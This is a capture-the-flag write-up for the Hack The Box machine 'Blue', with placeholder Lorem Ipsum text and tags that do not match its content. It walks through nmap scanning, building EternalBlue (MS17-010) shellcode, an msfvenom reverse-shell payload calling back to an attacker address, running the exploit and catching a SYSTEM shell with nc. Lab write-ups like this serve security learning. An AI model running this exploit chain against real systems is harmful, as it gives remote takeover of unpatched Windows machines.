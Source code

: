 ```yaml
---
layout: single
title: Blue - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-04-09
classes: wide
header:
  teaser: /assets/images/htb-writeup-blue/blue_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
categories:
  - hackthebox
  - infosec
tags:  
  - windows
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-blue/blue_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/blue]# nmap -Pn -n -sCV 10.10.10.40 --open                                                                         (master✱)
    Not shown: 991 closed ports
    PORT      STATE SERVICE      VERSION
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
    49152/tcp open  msrpc        Microsoft Windows RPC
    49153/tcp open  msrpc        Microsoft Windows RPC
    49154/tcp open  msrpc        Microsoft Windows RPC
    49155/tcp open  msrpc        Microsoft Windows RPC
    49156/tcp open  msrpc        Microsoft Windows RPC
    49157/tcp open  msrpc        Microsoft Windows RPC
    Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: mean: 3m40s, deviation: 1s, median: 3m39s
    | smb-os-discovery:
    |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
    |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
    |   Computer name: haris-PC
    |   NetBIOS computer name: HARIS-PC\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2021-02-24T13:00:40+00:00
    | smb-security-mode:
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled but not required
    | smb2-time:
    |   date: 2021-02-24T13:00:38
    |_  start_date: 2021-02-24T12:54:58


  [root:/git/htb/blue]# nmap -p139,445 --script vuln 10.10.10.40                                                                    (master✱)
    Host script results:
    |_smb-vuln-ms10-054: false
    |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
    | smb-vuln-ms17-010:
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143


2. Just like the box 'legacy' this device is vulnerable to ms17-010, eternal blue (as suggested by the box name).
   Trying to execute the same exploit and payload however gives us an error, so we need to find another approach.

     [root:/git/htb/blue]# python send_and_execute.py 10.10.10.40 ms17-010.exe                                                         (master✱)
      Trying to connect to 10.10.10.40:445
      Target OS: Windows 7 Professional 7601 Service Pack 1
      Not found accessible named pipe
      Done


3. Assemble the shellcode to binary, here we need to know the architecture (x64 or x86) but Im assuming it's x64 so lets start with that.

    [root:/git/htb/blue]# nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin

    Generate binary payload:
    [root:/git/htb/blue]# msfvenom -p windows/x64/shell_reverse_tcp LPORT=4488 LHOST=10.10.14.10 --platform windows -a x64 --format raw -o sc_x64_payload.bin
      No encoder specified, outputting raw payload
      Payload size: 460 bytes
      Saved as: sc_x64_payload.bin

    Concentrate payload & shellcode:
    [root:/git/htb/blue]# cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin


4. Exploit and grab all the flags.

    [root:/git/htb/blue]# python eternalblue_exploit7.py 10.10.10.40 sc_x64.bin                                                       (master✱)
      shellcode size: 1232
      numGroomConn: 13
      Target OS: Windows 7 Professional 7601 Service Pack 1
      SMB1 session setup allocate nonpaged pool success
      SMB1 session setup allocate nonpaged pool success
      good response status: INVALID_PARAMETER
      done


    [root:/git/htb/blue]# nc -lvnp 4488                                                                                               (master✱)
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.40] 49158
      Microsoft Windows [Version 6.1.7601]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

      C:\Windows\system32>whoami
        nt authority\system

      C:\Users\haris\Desktop>type user.txt
        4c546aea7dbee75cbd71de245c8deea9

      C:\Users\Administrator\Desktop>type root.txt
        ff548eb71e920ff6c08843ce9df4e717


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

ms17-010 EternalBlue manual exploit:
  https://root4loot.com/post/eternalblue_manual_exploit/

ms17-010 shellcode:
  https://github.com/worawit/MS17-010/tree/master/shellcode
